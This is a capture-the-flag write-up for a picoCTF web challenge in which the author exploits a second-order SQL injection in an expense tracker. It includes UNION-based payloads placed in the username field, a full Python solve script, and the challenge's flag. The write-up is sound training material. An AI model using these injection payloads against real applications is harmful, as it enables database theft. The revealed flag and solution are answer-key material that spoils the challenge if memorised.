




## Order Order  



We are given a webpage where we are able to log and track expenses. The webpage has registration and  login functionalities as well.  


The hint and title of the challenge already hint towards a second order SQLi.  



The expenses page has a report generating functionality, where it will compile and generate a CSV file containing all the logged expenses.  



Since this is essentially a blind SQLi, we need to make some educated guesses.  

Since there are only three fields (description, amount, date), we can assume that there is an `expenses` table or something similar with three columns.  

We can thus deduce that the server probably fetches expenses like so.  

```sql
SELECT description, amount, date FROM expenses WHERE username = '<username>'
```

If we set our username to an SQLi payload and store it into the database on registration, we can trigger a second order SQLi when we generate the report.  

Basing off our earlier assumptions, we can craft a username payload as such to leak the database structure.  

```sql
' union select sql, 1, 1 from sqlite_master --
```

Logging in and generating the report will confirm that our SQLi succeeded, and also reveals a table named `aDNyM19uMF9mMTRn`, whicn Base64 decodes to `h3r3_n0_f14g`.  



We can modify our payload to fetch all records from that table, giving us the flag.  

```sql
' union select name, value, 1 from aDNyM19uMF9mMTRn --
```

Below is my full solve script for this challenge.  

```python
import requests
import re
from time import sleep

url = "http://crystal-peak.picoctf.net:57206/"
s = requests.Session()

creds = {
    'username': "' union select name, value, 1 from aDNyM19uMF9mMTRn --",
    'email': 'hacked',
    'password': 'hacked'
}

# login
res = s.post(f'{url}/signup', data=creds)
res = s.post(f'{url}/login', data=creds)

print("> Logged in")

# upload payload
res = s.post(f'{url}/expenses', data={
    'description': 'a',
    'amount': '12.50',
    'date': '2026-03-11'
})

res = s.post(f'{url}/generate_report')
print("> Uploaded payload")

sleep(2)

# get leak
res = s.get(f'{url}/inbox')
download = re.findall(r'(/download_report/[0-9]+)', res.text)[0]

res = s.get(f'{url}/{download}')

flag = re.findall(r'(picoCTF{.+})', res.content.decode())[0].strip()
print("Flag:", flag)
```

Flag: `picoCTF{s3c0nd_0rd3r_1t_1s_e5ebb812}`